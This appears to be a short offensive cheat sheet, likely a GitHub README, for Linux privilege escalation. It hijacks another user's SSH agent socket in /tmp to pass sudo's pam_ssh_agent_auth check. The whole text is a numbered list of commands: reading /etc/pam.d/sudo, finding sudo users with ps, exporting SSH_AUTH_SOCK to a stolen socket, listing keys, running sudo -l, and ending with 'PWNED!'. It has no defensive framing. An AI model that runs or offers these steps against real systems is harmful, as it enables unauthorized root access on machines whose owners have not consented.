 ## STEPS:

### 1) Check if PAM for sudo has been configured to accept SSH keys: 

    cat /etc/pam.d/sudo

#### auth sufficient pam_ssh_agent_auth.so file=/etc/ssh/sudo_authorized_keys

#### session    required   pam_env.so readenv=1 user_readenv=0
#### session    required   pam_env.so readenv=1 envfile=/etc/default/locale user_readenv=0
#### @include common-auth
#### @include common-account
#### @include common-session-noninteractive

## 2) Check if the user that has signed in has used sudo: 

    ps aux

## 3) Find an SSH agent socket file fot the shell process we can access: 

    ls -la  /tmp/ssh-WHATEVER/agent.####

## 4) 

    export SSH_AUTH_SOCK=/tmp/ssh-WHATEVER/agent.####

## 5) 

    ssh-add -l

## 6) 

    sudo -l

## 7) PWNED!
